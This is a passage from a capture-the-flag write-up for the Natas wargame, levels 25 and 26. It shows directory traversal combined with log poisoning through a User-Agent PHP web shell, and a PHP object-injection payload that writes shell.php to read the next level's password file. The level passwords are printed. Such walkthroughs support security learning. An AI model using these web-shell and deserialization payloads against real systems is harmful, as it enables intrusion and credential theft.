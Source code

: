 As `../` is not filtered recursively we can reach these logs which show our User Agent String. Since this is under our control we can set it to some php code and get some RCE. ttr... is our session id.

Make a bad directory traversal attampt, set UAS to  `<?php system($_GET['cmd']); ?>`

Browse to log and add `&cmd=cat \etc\natas_webpass\natas26`

`oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T`

## Natas 26

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="exploit\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "img/shell.php";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";

?>
```
Take the output of this and replace our cookie, submit a request and browse to img/shell.php

`55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ`